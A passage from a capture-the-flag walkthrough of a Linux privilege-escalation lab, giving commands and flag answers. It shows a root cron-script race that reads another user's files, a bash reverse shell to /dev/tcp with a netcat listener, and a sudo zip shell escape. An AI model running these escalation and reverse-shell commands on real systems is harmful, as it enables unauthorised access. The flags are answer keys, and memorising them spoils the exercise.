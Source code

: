 {% hint style="success" %}
`mission30{d25b4c9fac38411d2fcb4796171bda6e}`
{% endhint %}

#### What is viktor's flag?

```bash
cd Escalator/
git log | egrep -o 'viktor{[^}]*}'
```

{% hint style="success" %}
`viktor{b52c60124c0f8f85fe647021122b3d9a}`
{% endhint %}

## Task 4 Privilege Escalation

#### What is dalia's flag?

```bash
cat /etc/crontab
# *  *	* * *	dalia	sleep 30;/opt/scripts/47.sh
# *  *	* * *	root	echo "IyEvYmluL2Jhc2gKI2VjaG8gIkhlbGxvIDQ3IgpybSAtcmYgL2Rldi9zaG0vCiNlY2hvICJIZXJlIHRpbWUgaXMgYSBncmVhdCBtYXR0ZXIgb2YgZXNzZW5jZSIKcm0gLXJmIC90bXAvCg==" | base64 -d > /opt/scripts/47.sh;chown viktor:viktor /opt/scripts/47.sh;chmod +x /opt/scripts/47.sh;
for i in {1..1000}; do echo 'cat /home/dalia/* > /tmp/dalia.txt' >> /opt/scripts/47.sh; sleep 1; done
```

```bash
cat /tmp/dalia.txt | egrep 'dalia{[^}]*}'
```

{% hint style="success" %}
`dalia{4a94a7a7bb4a819a63a33979926c77dc}`
{% endhint %}

#### What is silvio's flag?

```
for i in {1..1000}; do echo 'bash -i >& /dev/tcp/127.0.0.1/4444 0>&1' >> /opt/scripts/47.sh; sleep 1; done
```

```bash
nc -nvlp 4444
python3 -c 'import pty; pty.spawn("/bin/bash")'
sudo -l
# User dalia may run the following commands on linuxagency:
#     (silvio) NOPASSWD: /usr/bin/zip
```

```
TF=$(mktemp -u); sudo -u silvio /usr/bin/zip $TF /etc/hosts -T -TT 'bash #'
cd; cat flag.txt
```
